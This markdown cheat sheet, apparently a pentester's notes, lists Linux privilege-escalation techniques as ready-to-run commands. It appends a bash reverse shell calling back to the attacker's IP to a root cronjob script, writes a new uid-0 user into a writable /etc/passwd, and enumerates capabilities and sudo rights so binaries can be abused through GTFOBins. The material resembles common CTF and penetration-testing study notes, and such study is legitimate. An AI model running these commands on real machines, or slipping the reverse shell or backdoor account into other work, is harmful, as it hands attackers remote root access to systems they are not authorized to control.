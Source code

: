 ## Linux PrivEsc

If we reckon we have an admin password:
```bash
su - root
```
### Abusing cronjobs
Search for cronjobs running as privileged users and see if we can't edit the file it runs:
```bash
grep "CRON" /var/log/syslog
```
If this comes up empty don't forget to check other cronjob enumeration commands as listed in `enumeration/linux.md#cronjobs`.

If we can edit then go ahead and pop a reverse shell in there:
```bash
echo "bash -c 'bash -i >& /dev/tcp/<OurIP>/4444 0>&1'" >> cronjobbin_all_day_long.sh
```

### /etc/passwd
If for some ridiculous reason `/etc/passwd` is writable by a user we can execute commands as, we have an easy path to privesc by inserting a new root user in there:
```bash
openssl passwd lolzage
```
```bash
echo "gigachad:<our hashed password>:0:0:root:/root:/bin/bash" >> /etc/passwd
```
```bash
su gigachad
```

### GTFOBins
If a binary has been delegated additional capabilities (particularly keeping an eye out for the `cap_setuid+ep` setting) we can find out via:
```bash
/usr/sbin/getcap -r / 2>/dev/null
```
Equally if our current user can run an application as `root` we can discover them via:
```bash
sudo -l
```
In both cases we can search for how we might go about abusing the relevant binary on https://gtfobins.github.io/. Nb. it is possible that `AppArmor` may cuck us for a privesc path we try. Do not be disheartened! `AppArmor` works via a series of profiles, just because one is present for one application, does not mean there is one present for all of them. Abuse every binary!